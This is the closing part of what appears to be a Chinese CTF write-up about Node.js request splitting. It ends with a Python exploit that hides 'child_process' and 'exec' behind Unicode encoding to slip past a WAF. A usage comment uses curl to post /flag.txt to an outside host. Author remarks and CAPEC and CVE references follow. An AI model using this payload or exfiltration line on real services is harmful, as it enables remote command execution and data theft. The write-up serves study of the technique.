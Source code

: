 ```python
    payload = payload.replace("'","%C4%A7")
    payload = payload.replace("`","%C5%A0")
    payload = payload.replace("!","%C4%A1")

    payload = payload.replace("+","%2B")
    payload = payload.replace(";","%3B")
    payload = payload.replace("&","%26")

    # Bypass Waf
    payload = payload.replace("global","%C5%A7%C5%AC%C5%AF%C5%A2%C5%A1%C5%AC")
    payload = payload.replace("process","%C5%B0%C5%B2%C5%AF%C5%A3%C5%A5%C5%B3%C5%B3")
    payload = payload.replace("mainModule","%C5%AD%C5%A1%C5%A9%C5%AE%C5%8D%C5%AF%C5%A4%C5%B5%C5%AC%C5%A5")
    payload = payload.replace("require","%C5%B2%C5%A5%C5%B1%C5%B5%C5%A9%C5%B2%C5%A5")
    payload = payload.replace("root","%C5%B2%C5%AF%C5%AF%C5%B4")
    payload = payload.replace("child_process","%C5%A3%C5%A8%C5%A9%C5%AC%C5%A4%C5%9F%C5%B0%C5%B2%C5%AF%C5%A3%C5%A5%C5%B3%C5%B3")
    payload = payload.replace("exec","%C5%A5%C5%B8%C5%A5%C5%A3")

    return payload

def run(url,cmd):
    payloadC =  payloadRaw.replace("evalcmd",cmd)
    urlC = url+"/core?q="+getParm(payloadC)
    requests.get(urlC)

    requests.get(url+"/?action=5am3_get_flag").text

if __name__ == '__main__':
    targetUrl = sys.argv[1]
    cmd = sys.argv[2]
    print run(targetUrl,cmd)

# python exp.py http://127.0.0.1:8081 "curl eval.com -X POST -d `cat /flag.txt`"
```

------

实不相瞒，我被部分编码时应该编哪一些这个问题困扰了一天，经历了n次的环境崩溃和好多好多令人无语的情况；其实用全编码就是最简单快捷的，但是还是想自己折腾一下

这个系列下一篇应该是HTTP请求走私或者是302跳转ssrf相关的，不过近期应该是不会再碰js了，垃圾Node.js，毁我青春

------

{{% spoiler "以下是本文中涉及到的 和我学习时看过的所有文章的链接🔗 每日感谢互联网的丰富资源（" %}}
[CAPEC-220: Client-Server Protocol Manipulation](https://capec.mitre.org/data/definitions/220.html)  |  [CAPEC-105: HTTP Request Splitting](https://capec.mitre.org/data/definitions/105.html)  |  [CAPEC-33: HTTP Request Smuggling](https://capec.mitre.org/data/definitions/33.html)

[http: add --security-revert for CVE-2018-12116](https://github.com/nodejs/node/commit/dd20c0186f)

[Security Bugs in Practice: SSRF via Request Splitting](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)
